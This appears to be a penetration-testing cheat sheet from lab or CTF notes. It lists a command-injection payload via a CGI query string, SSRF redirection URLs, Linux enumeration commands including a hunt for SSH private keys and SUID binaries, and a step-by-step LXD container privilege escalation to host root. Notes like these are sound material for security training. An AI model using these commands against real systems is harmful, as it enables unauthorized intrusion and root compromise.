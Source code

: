 #### OWASP ZAP
- use automated scan to search for XSS vulnerabilities

### Command Injection
- Via CGI (Common Gateway Interface) scripts: `192.168.1.200/cgi-bin/systeminfo.sh?&whoami`

### Server Site Request Forgery
- if this link works: `http://10.10.0.150/?proxy=http://list.hohoho:8080/search.php?name=test`
- you can change the proxy to redirect to localhost with `localtest.me`
- `http://10.10.0.150/?proxy=http://list.hohoho.localtest.me`

## PrivEsc
1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions

### Enumeration
- `uname -a`
- `sudo -l`
- `whoami`
- show distrubution version:`lsb_release -a`
- show current shell: `echo $0`
- find SSH keys: `find / -name id_rsa 2> /dev/null`
- show host MOTD: `cat /etc/update-motd.d/00-header`

### find SUID bit Linux
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -perm 4000 2>/dev/null`

### Useful links
- GTFOBins: https://gtfobins.github.io/
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
- https://payatu.com/guide-linux-privilege-escalation
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation

### Privesc with LXD
- check if the user is member of lxd group: `id`
- on attacking machine:
    - Download build-alpine on your local machine via the git repository (https://github.com/lxd-images/alpine-3-7-apache-php5-6)
    - Execute the script "build -alpine" that will build the latest Alpine image as a compressed file. This must be executed by the root user.
    - Transfer this newly created tar file to the victim machine
- on victim machine:
    - Download the alpine image
    - Import image for lxd
    - Initialize the image inside a new container <- Worth checking the already imported/available images as you may be able to skip to this step
    - Mount the container inside the /root directory
- check what images are readily available on the machine: `lxc image list`
- `lxc init IMAGENAME CONTAINERNAME -c security.privileged=true` (containername can be anything)
- `lxc config device add CONTAINERNAME DEVICENAME disk source=/ path=/mnt/root recursive=true` (devicenam can also be anything)
- `lxc start CONTAINERNAME`
- `lxc exec CONTAINERNAME /bin/sh`
- mount storage and verity root escalation: `id` and `cd /mnt/root/root`
- more info here: https://www.hackingarticles.in/lxd-privilege-escalation/